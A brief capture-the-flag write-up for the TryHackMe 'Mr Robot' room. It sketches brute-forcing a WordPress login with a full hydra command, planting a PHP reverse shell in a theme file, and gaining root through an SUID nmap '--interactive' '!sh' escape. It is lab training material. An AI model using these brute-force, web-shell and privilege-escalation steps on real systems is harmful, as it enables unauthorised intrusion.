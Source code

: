 # Mr Robot 🧭
Names | Details
--------|-----
Source | tryhackme
Level     | medium
Os | linux

**Notes :**




## Gaining Access 😉

- bruteforce
	- wordlist got from dir specified in robots.txt
- wordpress apperance .php file edited
	- pasted php revese shell
	- executed php with url


## Maintaining Access 🥷
- find / -perm +6000 2>/dev/null | grep '/bin/'
	- nmap found
	- GTFO bins search nmap
	- nmap --interactive
		- !sh

## Important commands 🔥
- reverse shell
- hydra login on login form
	```
	hydra -L user.dic -p test 10.10.12.13 http-post-form "/wp-login.php:log=^user^&pwd=^pwd^:invalid username" -t 30
	```
- nmap --interactive
	- `!sh`

## Post Exploitation ✴️
- first flag found in directory specified in robots.txt
- User flag : /home/user/user.txt
- Root flag : /root/root.txt
## Tips 💡
- privilege escalation using nmap
- bruteforce in login form with hydra


--------------------------------
**By Nibras Muhammed** 🤓🖥️






